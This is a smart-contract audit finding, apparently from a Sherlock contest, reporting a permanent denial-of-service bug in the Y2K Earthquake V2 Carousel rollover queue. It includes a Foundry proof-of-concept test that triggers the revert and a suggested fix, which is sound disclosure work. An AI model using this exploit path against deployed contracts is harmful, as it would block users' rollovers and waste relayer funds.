 evan

medium

# It's possible to permanently DOS the rollover system

## Summary
In some cases, a user can permanently DOS the rollover system.

## Vulnerability Detail
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L366
Observe that previewWithdraw reverts if finalTVL[_id] = 0

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L396
MintRollovers calls this function on every queue element with a resolved epoch.

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L298
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/VaultV2.sol#L209
At resolution, the finalTVL of the epoch is set to the supply of the corresponding token.

https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L436-L437
Due to relayer fees, it's entirely possible for the queue to contain an entry where the corresponding epoch doesn't have any supply.

For example, a user can create a rollover entry with `assets` = relayerFee for epoch 2. After a rollover to epoch 3, nothing will be minted since the `assets` of the entry will be 0. If this epoch (epoch 3) ends with no one depositing in it, then mintRollover for all subsequent epochs will fail once the loop hits this entry. This is demonstrated in the POC in the Code Snippet section.

## Impact
Observe that this permanently prevents any rollover entry after the problematic one from rolling over. This can also cause the relayer to waste gas without any compensation.

## Code Snippet
Please add the following test into CarouselTest.t.sol, and run it by itself `forge test -m testRolloverDOS`
```solidity
function testRolloverDOS() public {
        // create first epoch
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint256 _epochId = 2;
        uint256 _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);
    
        // deposit in first epoch
        helperDepositInEpochs(_epochId,USER, false);
        helperDepositInEpochs(_epochId,USER2, false);

        vm.warp(_epochBegin - 10 minutes);
    
        helperDepositInEpochs(_epochId,USER, false);
        helperDepositInEpochs(_epochId,USER2, false);

        // enlist in rollover for next epoch
        vm.startPrank(USER);
        vault.enlistInRollover(_epochId, relayerFee, USER);
        vm.stopPrank();

        // resolve first epoch
        vm.warp(_epochEnd + 1 days);
        vm.startPrank(controller);
        vault.resolveEpoch(_epochId);
        vm.stopPrank();

        // create second epoch
        _epochBegin = uint40(block.timestamp + 1 days);
        _epochEnd = uint40(block.timestamp + 2 days);
        _epochId = 3;
        _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        // simulate prev epoch win
        stdstore
            .target(address(vault))
            .sig("claimTVL(uint256)")
            .with_key(2)
            .checked_write(1000 ether);

        // let relayer rollover for user
        vm.startPrank(relayer);
        vault.mintRollovers(_epochId, 1);
        vm.stopPrank();

        // resolve second epoch
        vm.warp(_epochEnd + 1 days);
        vm.startPrank(controller);
        vault.resolveEpoch(_epochId);
        vm.stopPrank();

        // create third epoch
        _epochBegin = uint40(block.timestamp + 1 days);
        _epochEnd = uint40(block.timestamp + 2 days);
        _epochId = 4;
        _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        // let relayer rollover for user
        vm.startPrank(relayer);
        vm.expectRevert();
        vault.mintRollovers(_epochId, 1);
        vm.stopPrank();
    }
```

## Tool used
Manual Review
Foundry

## Recommendation
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L403
Changing this comparison to include equality should mitigate this issue.
